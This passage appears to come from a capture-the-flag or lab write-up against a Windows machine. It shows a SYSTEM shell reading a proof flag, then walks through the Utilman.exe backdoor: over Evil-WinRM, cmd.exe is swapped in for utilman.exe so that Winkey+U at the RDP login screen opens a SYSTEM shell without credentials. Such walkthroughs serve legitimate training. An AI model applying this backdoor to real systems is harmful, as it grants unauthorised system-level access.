(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type \Users\Administrator\Desktop\proof.txt
type \Users\Administrator\Desktop\proof.txt
f7481c4002e3fba856b331b966594331
```

It's also possible to gain a System session using the Utilman.exe technique described [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md). The prerequisite is that you can RDP into the Windows target in order to execute the `Winkey + U` command to trigger the exploit, which we can do since 3389 is open.

First back up `utilman.exe` and rename `cmd.exe` to `utilman.exe`:

```bash
*Evil-WinRM* PS C:\Windows\System32> move utilman.exe utilman.bak
*Evil-WinRM* PS C:\Windows\System32> move cmd.exe utilman.exe
```

Now RDP without any creds and, at the login screen, press `Winkey + U` to get a shell as System:

```bash
$ rdesktop 192.168.164.165
Autoselecting keyboard map 'en-us' from locale
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
```



